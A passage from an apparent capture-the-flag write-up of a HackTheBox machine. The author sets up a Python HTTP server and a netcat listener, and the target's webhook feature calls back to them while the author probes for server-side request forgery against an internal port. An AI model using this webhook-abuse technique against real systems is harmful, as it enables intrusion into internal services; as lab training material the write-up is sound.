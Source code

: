 ![image](/assets/img/health/01.png)

On Linux machine there is also a hit, 
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.176 - - [05/Oct/2022 12:17:10] "GET / HTTP/1.0" 200 
```
`netcat` returned a hit but seem it has all the outputs from my machine, for the initial step it's cool but the main goal here is trying to have access to the `127.0.0.1:3000` and see what is with it.
```
┌──(egovridc㉿egovridc)-[~/C7F5/htb/health/www]
└─$ nc -nlvp 1235                                                                                                                                                                                                                         
listening on [any] 1235 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.176] 46500
POST / HTTP/1.1
Host: 10.10.14.18:1235
Accept: */*
Content-type: application/json
Content-Length: 673

{"webhookUrl":"http:\/\/10.10.14.18:1235","monitoredUrl":"http:\/\/10.10.14.18","health":"up","body":"<!DOCTYPE HTML PUBLIC \"-\/\/W3C\/\/DTD HTML 4.01\/\/EN\" \"http:\/\/www.w3.org\/TR\/html4\/strict.dtd\">\n<html>\n<head>\n<meta http-equiv=\"Content-Type\" content=\"text\/html; charset=utf-8\">\n<title>Directory listing for \/<\/title>\n<\/head>\n<body>\n<h1>Directory listing for \/<\/h1>\n<hr>\n<ul>\n<li><a href=\"health\">health<\/a><\/li>\n<\/ul>\n<hr>\n<\/body>\n<\/html>\n","message":"HTTP\/1.0 200 OK","headers":{"Server":"SimpleHTTP\/0.6 Python\/3.10.7","Date":"Wed, 05 Oct 2022 09:18:51 GMT","Content-type":"text\/html; charset=utf-8","Content-Length":"334"}}
```
